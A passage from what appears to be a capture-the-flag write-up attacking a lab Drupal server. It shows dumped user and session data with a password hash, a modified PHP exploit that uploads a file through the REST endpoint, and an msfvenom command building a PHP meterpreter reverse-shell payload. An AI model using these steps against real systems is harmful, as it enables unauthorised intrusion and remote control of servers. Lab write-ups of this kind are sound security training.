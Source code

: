  “roles”: {
 “2”: “authenticated user”,
 “3”: “administrator”
 },
 “rdf_mapping”: {
 “rdftype”: [
 “sioc:UserAccount”
 ],
 “name”: {
 “predicates”: [
 “foaf:name”
 ]
 },
 “homepage”: {
 “predicates”: [
 “foaf:page”
 ],
 “type”: “rel”
 }
 },
 “pass”: “$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE”
}

session.json

{
 “session_name”: “SESSd873f26fc11f2b7e6e4aa0f6fce59913”,
 “session_id”: “xAmjIUH0wKeDr1QmfFsRWOs6QO_I-NpOEOkd-i3fVkU”,
 “token”: “s4iFtBwozCOf0rxIeloGaQ_KfOY1rGFOUpxNc2z5BH8”
}

I modified the exploit so it would read from a file that file will contain my php shell.

$myfile = fopen(“payload1.txt”, “r”) or die(“Unable to open file!”);
$payload1 = fread($myfile,filesize(“payload1.txt”));
$url = ‘10.10.10.9’;
$endpoint_path = ‘/rest’;
$endpoint = ‘rest_endpoint’;

 $file = [
 ‘filename’ => ‘ssec.php’,
 ‘data’ => $payload1
];

I created a payload named payload1.txt and the contents of payload1.txt will be uploaded to the webserver as ssec.php

msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.x.x LPORT=1234 -f raw > payload1.txt

now when I run the drupal exploit the payload is written to the web server as a php shell.

$ php drupal.php

Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: 10.10.10.9/ssec.php

